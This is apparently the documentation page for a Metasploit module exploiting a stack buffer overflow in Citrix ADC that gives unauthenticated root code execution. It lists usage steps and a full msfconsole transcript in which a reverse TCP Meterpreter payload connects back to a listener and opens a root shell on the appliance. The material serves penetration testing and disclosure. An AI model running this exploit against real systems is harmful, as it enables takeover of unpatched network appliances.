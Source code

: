 ## Vulnerable Application

A vulnerability exists within Citrix ADC that allows an unauthenticated attacker to trigger a stack buffer overflow of
the nsppe process by making a specially crafted HTTP GET request. Successful exploitation results in remote code
execution as root.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/freebsd/http/citrix_formssso_target_rce`
4. Set the `RHOST`, `PAYLOAD` and payload-related options
5. Do: `run`
6. You should get a shell.

## Options

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### Citrix ADC 13.1-48.47

NetScaler VPX instance for VMware ESX from `NSVPX-ESX-13.1-48.47_nc_64`.

```
msf6 exploit(freebsd/http/citrix_formssso_target_rce) > show options 

Module options (exploit/freebsd/http/citrix_formssso_target_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.130  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Citrix ADC 13.1-48.47



View the full module info with the info, or info -d command.

msf6 exploit(freebsd/http/citrix_formssso_target_rce) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (24768 bytes) to 192.168.159.30
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.30:36429) at 2023-07-31 17:34:18 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : cirtrix
OS           : FreeBSD 11.4-NETSCALER-13.1 FreeBSD 11.4-NETSCALER-13.1 #0 2596b10c4(rs_131_48_41_RTM): Sat Jun  3 00:57:48 PDT 2023     root@sjc-bld-bsd114-232:/usr/obj/usr/home/build/adc/usr.src/sys/NS64
Architecture : x64
Meterpreter  : python/freebsd
meterpreter > pwd
/
meterpreter > 
```
